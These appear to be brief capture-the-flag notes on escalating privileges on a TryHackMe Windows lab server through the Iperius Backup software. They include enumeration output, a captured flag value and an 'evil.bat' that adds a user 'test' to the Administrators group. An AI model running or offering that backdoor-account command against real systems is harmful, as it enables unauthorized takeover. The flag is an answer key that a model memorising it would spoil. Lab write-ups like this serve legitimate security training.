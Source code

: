 Day 13

systeminfo | findstr /B /C: "OS Name"
Host Name:                 THE-GRINCH-HACK
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
BIOS Version:              Xen 4.2.amazon, 8/24/2006
                                 Connection Name: Ethernet

wmic service list | findstr "Running" >1.txt


Google "Iperius Backup exploit"

https://www.exploit-db.com/exploits/46863

c:\Users\thegrinch\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of c:\Users\thegrinch\Documents

11/10/2021  06:23 AM    <DIR>          .
11/10/2021  06:23 AM    <DIR>          ..
11/10/2021  06:21 AM                13 flag.txt
11/10/2021  06:23 AM               222 Schedule.txt
               2 File(s)            235 bytes
               2 Dir(s)  15,616,204,800 bytes free

c:\Users\thegrinch\Documents>type flag.txt
type flag.txt
THM-736635221
c:\Users\thegrinch\Documents>type Schedule.txt
type Schedule.txt
Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - jazzercize
6:30 - dinner with me. I can�t cancel that again 
7:00 - wrestle with my self-loathing

Privilege administrators

change file evil.bat
@echo off
net user test MyPassword123 /add && net localgroup Administrators test /add

run backup

